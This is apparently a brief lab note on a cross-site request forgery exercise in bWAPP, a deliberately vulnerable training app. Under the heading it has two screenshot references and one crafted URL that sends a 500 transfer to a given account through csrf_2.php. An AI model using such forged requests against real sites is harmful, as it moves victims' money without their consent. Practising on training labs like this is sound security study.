 # CSRF (Transfer Amount)
![[Pasted image 20241015092216.png]]![[Pasted image 20241015092226.png]]
```
http://59.23.133.107/bWAPP/csrf_2.php?account=123-45678-90&amount=500&action=transfer
```
